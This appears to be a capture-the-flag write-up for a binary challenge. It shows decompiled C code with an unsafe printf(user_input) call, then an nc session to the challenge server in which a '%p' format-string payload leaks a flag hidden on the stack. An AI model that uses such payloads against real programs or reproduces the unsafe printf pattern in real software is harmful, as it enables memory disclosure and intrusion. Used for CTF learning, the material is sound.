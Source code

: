 1. Analyse the file with Ghidra. main() shows this:
`   FILE *local_c0;
    char local_b8[64];
    char local_78[104];
    long local_10;

    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    local_c0 = fopen("flag.txt", "r");
    if (local_c0 == (FILE *)0x0) {
        printf("Error in opening the flag file");
    }
    fgets(local_b8, 0x3f, local_c0);
    puts(
        "Welcome to the Armed Detective Agency - the best and most famous detective agency in all of Yokohama!"
    );
    puts(
        "Thank you for coming, future detective! We need your help on this very important and classified mission!"
    );
    puts("A chest full of ability crystals has been lost somewhere in this binary.");
    puts("Can you help us find it? (Y/n)");
    __isoc99_scanf("%DAT_00102178", &local_c1);
    if (local_c1 == 'Y') {
        puts("Aww! We really looked forward to working with you! \\n Have a nice day.");
    }
    else {
        puts("Great! What was your name again?");
        __isoc99_scanf("%DAT_00102184", local_78);
        printf("Looking forward to working with you ");
        printf(local_78);
    }
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        /* WARNING: Subroutine does not return */
        stack_chk_fail();
    }
    return 0;`

2. From main(), we can see that `printf(local_78)` is a **format string vulnerability** as it should be `printf("%s", local_78)`. So we can use `%p` to print various values from the stack, which is likely where the flag is hidden. 

3. I first tried dumping a bunch of stack positions up to to 20, and then passing the resulting hex output to CyberChef to decode.
`   └─$ nc 43.205.113.100 8280
    Welcome to the Armed Detective Agency - the best and most famous detective agency in all of Yokohama!
    Thank you for coming, future detective! We need your help on this very important and classified mission!
    A chest full of ability crystals has been lost somewhere in this binary.
    Can you help us find it? (Y/n)
    Y
    Great! What was your name again?
    %20$p.%19$p.%18$p.%17$p.%16$p.%15$p.%14$p.%13$p.%12$p.%11$p.%10$p
    Looking forward to working with you 0x2e70243731252e70.0x243831252e702439.0x31252e7024303225.0x7d736e31406d.0x33725f67406c665f.0x3368745f7475625f.0x6873316e40765f35.0x656974696c696240.0x5f64337463407274.0x58655f3368747b66.0x746369746b616873`
Putting it into CyberChef, I got:
![Decoded](image.png)
Aside from the 3 irrelevant values (stack positions 20-18), we can see that there is a reversed flag inside (stack positions 10-17).

4. Remove the front portion and reverse the rest to get the flag:
![Flag](image-1.png)